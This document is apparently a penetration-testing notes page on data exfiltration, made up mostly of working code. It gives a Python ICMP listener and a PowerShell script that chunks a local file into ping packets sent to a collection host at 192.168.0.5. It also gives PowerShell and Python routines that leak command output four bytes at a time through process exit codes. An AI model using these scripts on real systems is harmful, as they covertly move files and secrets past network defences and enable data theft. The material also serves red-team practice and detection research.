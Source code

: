# Data Exfiltration

## ICMP

### Extracting a File

By sending ping packets from our server, with the start marked by `^BOF` and the end marked by `EOF` , we can set up an icmplistener as below which decodes the data packets and then writes them to our file. This isn't as universal as metasploit's listener, but it servers as a quick and dirty poc if all you're looking to extract is a single file.

```python
import socket

def listen():
    s = socket.socket(socket.AF_INET,socket.SOCK_RAW,socket.IPPROTO_ICMP)
    s.setsockopt(socket.SOL_IP, socket.IP_HDRINCL, 1)
    with open('icmpoutput.txt','wb') as catch:   
        while 1:
            data, addr = s.recvfrom(1508)
            print "Packet from %r: %r" % (addr,data)
            if '^BOF' in data:
                continue
            if '^EOF' in data:
                catch.write(data[-1472:-4])
            catch.write(data[-1472:])

listen()
```

A good option for recent Windows based systems is a modified [Powershell-ICMP-Sender](https://github.com/api0cradle/Powershell-ICMP).

```bash
    $IPAddress = "192.168.0.5"
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $true
    #$PingOptions.Ttl = 10

    # Must be divided into 1472 chunks
    [int]$bufSize = 1472
    $inFile = "C:\Users\bob\Desktop\backfile"


    $stream = [System.IO.File]::OpenRead($inFile)
    $chunkNum = 0
    $TotalChunks = [math]::floor($stream.Length / 1472)
    $barr = New-Object byte[] $bufSize

    # Start of Transfer
    $sendbytes = ([text.encoding]::ASCII).GetBytes("^BOFbackfile")
    $ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null


    while ($bytesRead = $stream.Read($barr, 0, $bufsize)) {
        $ICMPClient.Send($IPAddress,10, $barr, $PingOptions) | Out-Null
        $ICMPClient.PingCompleted

        #Missing check if transfer is okay, added sleep.
        sleep 2
        #$ICMPClient.SendAsync($IPAddress,60 * 1000, $barr, $PingOptions) | Out-Null
        Write-Output "Done with $chunkNum out of $TotalChunks"
        $chunkNum += 1
    }

    # End the transfer
    $sendbytes = ([text.encoding]::ASCII).GetBytes("^EOF")
    $ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null
    Write-Output "File Transfered"
```

## Error Codes

We can exfiltrate arbitrary data via literally nothing but error-codes. Here I'll walk through the stages to set up and test this for exfiltrating some file.

An error code can have a maximum length of 32 bits, or 4 bytes. We can therefore encode 4 arbitrary bytes within the return of a windows command.

We have data stored within`$env:temp/merror.txt` and the only parameter we need to know is it's length. We can run an arbitrary command, store it's output in the file and find out its length by running the following:

```text
$command = (Invoke-Command -ScriptBlock {{{0}}} | Out-String).TrimStart().TrimEnd(); $command | Out-File $env:temp/merror.txt -encoding ASCII ;exit $command.length'.format(command)
```

We now have to generate our commands to split up the file and return the data. The following script will return an iterator that will yield commands to run on the remote machine, which will return error codes.

```python
def error_exfil(output_length):
    output_length = int(output_length)
    for start in range(0, int(output_length), 4):
        if (output_length - start) < 4:
            amount_to_fetch = output_length-start
        else:
            amount_to_fetch = "4"
        run_cmd = '$fs = Get-Content $env:temp/merror.txt -Encoding Byte -ReadCount 0; $bytearray = $fs[{0}..{1}]; $hex = [System.BitConverter]::ToString($bytearray) -replace \'-\',\'\';\
echo $hex; exit ([convert]::ToInt32($hex, 16));'.format(start, int(start)+int(amount_to_fetch)-1)
        yield run_cmd
```

Decoding them on the other end is as simple as:

```python
def decode_error(errorval):
    val = hex(int(errorval))[2:]
    if len(val)%2 !=0:
        val = '0'+ val

    return val.decode('hex')
```

